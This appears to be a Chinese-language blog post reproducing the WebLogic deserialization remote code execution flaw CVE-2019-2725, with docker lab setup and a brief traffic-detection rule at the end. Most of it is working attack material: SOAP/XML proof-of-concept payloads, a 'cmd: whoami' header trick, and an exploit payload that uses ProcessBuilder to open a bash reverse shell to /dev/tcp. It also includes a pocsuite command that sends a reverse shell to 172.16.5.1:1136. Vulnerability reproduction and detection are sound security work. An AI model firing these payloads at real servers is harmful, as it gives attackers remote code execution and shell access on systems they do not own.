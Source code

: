 ```yaml
---
layout: post
title:  "Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725)" 
date:   2019-08-08 17:10:51
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725)
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```

## Weblogic反序列化远程代码执行漏洞（CVE-2019-2725)

## 漏洞概述

由于在反序列化处理输入信息的过程中存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，利用该漏洞获取服务器权限，实现远程代码执行。

### 漏洞环境搭建

docker 快速启动：

```bash
docker pull ismaleiva90/weblogic12

docker run -d -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```

访问：ip:7001/_async/AsyncResponseService 查看 wls9-async 组件是否启动成功
![avatar](/assets/img/posts/20190426101059760.png)
nmap 检测插件 [weblogic.nse](https://github.com/Rvn0xsy/nse_vuln/tree/master/weblogic/CNVD-C-2019-4814) 


### 漏洞复现

#### Poc
* 通用无回显 poc

向/_async/AsyncResponseService 发送 XMLPoc，连接类型 content-type: text/xml：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="POC">
<array class="xx" length="0">
</array>
<void method="start"/>
</void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```

如果 res.status_code == 202 则可以判断存在漏洞

* 特定版本可回显 poc

向 /wls-wsat/CoordinatorPortType 传递恶意构建的 xml 请求可以触发回显信息。通过使用 ls 命令查看目录下是否存在 server bin 等必要目录，如果存在这些必要目录，则判定 poc 执行成功
Version = 10.*
```html
header:
"Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
"Content-Type": "text/xml",
"cmd": "whoami"
body:
参考下面 pocsuite poc 部分
```
Version = 12
```html
header:
"Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
"Content-Type": "text/xml"
body：
参考下面 pocsuite poc 部分
```


#### Exp
* exp_for_asy

向/_async/AsyncResponseService 发送 XMLPoc，连接类型 content-type: text/xml：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
* exp_for_wls
参考下面 pocsuite exp 部分
#### Pocsuite
* poc

[poc.py](https://github.com/co0ontty/CVE-2019-2725-pocsuite/blob/master/poc.py)
```bash
pocsuite -r poc.py -u 172.16.5.162 
```
* exp

[exp.py](https://github.com/co0ontty/CVE-2019-2725-pocsuite/blob/master/exp.py)
```bash
pocsuite -r exp.py -u 172.16.5.162 --extra-params="{'cmd':'bash -i &gt;&amp; /dev/tcp/172.16.5.1/1136 0&gt;&amp;1'}"
```

### 流量检测

规则：通过检测目标对 /_async/AsyncResponseService 目录的请求，确定目标请求使用存在漏洞的组件，如果在对 /_async/AsyncResponseService 的请求中存在 content-type 为 ‘text/xml’ 的请求且请求内容存在  `<soapenv><soapenv/>` (\<soapenv>用于创建自定义命名空间)则判定存在攻击行为 
